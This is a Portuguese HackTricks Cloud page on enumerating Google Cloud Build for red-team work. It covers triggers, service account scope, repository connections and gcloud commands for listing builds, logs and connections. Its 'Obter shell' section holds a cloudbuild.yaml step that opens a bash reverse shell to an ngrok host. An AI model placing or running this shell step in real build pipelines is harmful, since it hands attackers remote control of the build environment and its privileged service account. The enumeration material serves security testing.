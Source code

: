 # GCP - Enumeração do Cloud Build

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Informações Básicas

O Google Cloud Build é uma plataforma CI/CD gerenciada que **automatiza a construção de software** e os processos de lançamento, integrando-se com **repositórios de código-fonte** e suportando uma ampla gama de linguagens de programação. Ele **permite que os desenvolvedores construam, testem e implantem código automaticamente** enquanto oferece flexibilidade para personalizar etapas de construção e fluxos de trabalho.

Cada Desencadeador do Cloud Build está **relacionado a um Repositório do Cloud ou conectado diretamente a um repositório externo** (Github, Bitbucket e Gitlab).

{% hint style="success" %}
Não consegui ver nenhuma maneira de roubar o token do Github/Bitbucket daqui ou dos Repositórios do Cloud porque quando o repositório é baixado, ele é acessado por meio de uma URL [https://source.cloud.google.com/](https://source.cloud.google.com/) e o Github não é acessado pelo cliente.
{% endhint %}

### Eventos

O Cloud Build pode ser acionado se:

* **Push para um branch**: Especifique o branch
* **Push de uma nova tag**: Especifique a tag
* **Pull request**: Especifique o branch que recebe o PR
* **Invocação Manual**
* **Mensagem Pub/Sub:** Especifique o tópico
* **Evento de Webhook**: Irá expor uma URL HTTPS e a solicitação deve ser autenticada com um segredo

### Execução

Existem 3 opções:

* Um yaml/json **especificando os comandos** a serem executados. Geralmente: `/cloudbuild.yaml`
* Apenas um que pode ser especificado "inline" no console da web e no cli
* Opção mais comum
* Relevante para acesso não autenticado
* Um **Dockerfile** para construir
* Um **Buildpack** para construir

### Permissões do SA

A **Conta de Serviço tem o escopo `cloud-platform`**, então ela pode **usar todos os privilégios.** Se **nenhum SA for especificado** (como ao fazer submit) o **SA padrão** `<proj-number>@cloudbuild.gserviceaccount.com` será **usado.**

Por padrão, nenhuma permissão é concedida, mas é bastante fácil conceder algumas:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Aprovações

É possível configurar um Cloud Build para **exigir aprovações para execuções de construção** (desativado por padrão).

### Conexões e Repositórios

Conexões podem ser criadas em:

* **GitHub:** Ele mostrará um prompt de OAuth pedindo permissões para **obter um token do Github** que será armazenado dentro do **Secret Manager.**
* **GitHub Enterprise:** Ele pedirá para instalar um **GithubApp**. Um **token de autenticação** do seu host do GitHub Enterprise será criado e armazenado neste projeto como um segredo do **Secret Manager.**
* **GitLab / Enterprise:** Você precisa **fornecer o token de acesso da API e o token de acesso da API de Leitura** que serão armazenados no **Secret Manager.**

Uma vez que uma conexão é gerada, você pode usá-la para **vincular repositórios aos quais a conta do Github tem acesso**.

Esta opção está disponível através do botão:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Observe que os repositórios conectados com este método estão **disponíveis apenas em Triggers usando a 2ª geração.**
{% endhint %}

### Conectar um Repositório

Isso não é o mesmo que uma **`conexão`**. Isso permite **diferentes** maneiras de obter **acesso a um repositório do Github ou Bitbucket** mas **não gera um objeto de conexão, mas gera um objeto de repositório (da 1ª geração).**

Esta opção está disponível através do botão:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Armazenamento

Às vezes, o Cloud Build irá **gerar um novo armazenamento para armazenar os arquivos para o desencadeador**. Isso acontece, por exemplo, no exemplo que o GCP oferece com:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Um bucket de armazenamento chamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) é criado para armazenar um arquivo `.tgz` com os arquivos a serem usados.

### Obter shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Instale o gcloud dentro do Cloud Build:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumeração

Você pode encontrar **informações sensíveis em configurações de build e logs**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Escalação de Privilégios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acesso não autenticado

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Pós-Exploração

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
